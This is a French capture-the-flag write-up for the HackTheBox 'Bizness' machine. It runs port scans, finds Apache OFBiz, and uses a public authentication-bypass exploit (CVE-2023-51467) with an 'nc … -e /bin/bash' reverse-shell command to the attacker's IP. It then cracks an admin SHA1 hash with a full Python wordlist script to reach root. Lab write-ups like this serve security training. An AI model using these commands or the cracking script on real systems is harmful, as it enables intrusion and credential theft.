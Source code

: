   # Bizness

	echo "10.10.11.252 bizness.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.252 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.252 -oN nmap.txt
	feroxbuster --silent -u https://bizness.htb -k
	
Scans classiques.

    PORT    STATE SERVICE  VERSION
    22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
    80/tcp  open  http     nginx 1.18.0
    443/tcp open  ssl/http nginx 1.18.0



C'est un simple site web commercial sans vrai contenu. 

Mais le fuzzing a permis de mettre en évidence un chemin intéressant : 

> https://bizness.htb/control (CODE:200|SIZE:34633) 

Sur cette page de login, on peut voir que c'est du Apache OFBiz.

Et Apache OFBiz est vulnérable à une RCE.

Voir : 
- https://www.fortiguard.com/threat-signal-report/5363/apache-ofbiz-authentication-bypass-cve-2023-51467-cve-2023-49070
- https://github.com/K3ysTr0K3R/CVE-2023-51467-EXPLOIT 
- https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass 

>
 
    git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
    cd Apache-OFBiz-Authentication-Bypass 
    
    rlwrap nc -nvlp 9999
    python exploit.py --url https://bizness.htb --cmd 'nc 10.10.16.10 9999 -e /bin/bash'
    ...
    python3 -c 'import pty ; pty.spawn("/bin/bash")'
    cd ~
	cat user.txt	 

## Élévation de privilèges


Dans /opt/ofbiz/framework/resources/templates on trouve un fichier **AdminUserLoginData.xml** contenant un hash SHA1 : 

    $SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I=

Il manque cependant la partie du salt. J'ai trouvé un script permettant de bruteforcer ce salt : 

    import hashlib
    import base64
    import os
    from tqdm import tqdm

    class PasswordEncryptor:
        def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
            """
            Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.

            :param hash_type: The hash algorithm to use (default is SHA).
            :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).
            """
            self.hash_type = hash_type
            self.pbkdf2_iterations = pbkdf2_iterations

        def crypt_bytes(self, salt, value):
            """
            Crypt a password using the specified hash type and salt.

            :param salt: The salt used in the encryption.
            :param value: The password value to be encrypted.
            :return: The encrypted password string.
            """
            if not salt:
                salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
            return result

        def get_crypted_bytes(self, salt, value):
            """
            Get the encrypted bytes for a password.

            :param salt: The salt used in the encryption.
            :param value: The password value to get encrypted bytes for.
            :return: The encrypted bytes as a string.
            """
            try:
                hash_obj = hashlib.new(self.hash_type)
                hash_obj.update(salt.encode('utf-8'))
                hash_obj.update(value)
                hashed_bytes = hash_obj.digest()
                return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
            except hashlib.NoSuchAlgorithmException as e:
                raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

    # Example usage:
    hash_type = "SHA1"
    salt = "d"
    search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
    wordlist = '/usr/wordlist/rockyou.txt'

    # Create an instance of the PasswordEncryptor class
    encryptor = PasswordEncryptor(hash_type)

    # Get the number of lines in the wordlist for the loading bar
    total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

    # Iterate through the wordlist with a loading bar and check for a matching password
    with open(wordlist, 'r', encoding='latin-1') as password_list:
        for password in tqdm(password_list, total=total_lines, desc="Processing"):
            value = password.strip()

            # Get the encrypted password
            hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))

            # Compare with the search hash
            if hashed_password == search:
                print(f'Found Password:{value}, hash:{hashed_password}')
                break  # Stop the loop if a match is found

On trouve le mot de passe de l'administrateur, qui s'avère aussi être le mot de passe root :

    su 
	cat /root/root.txt
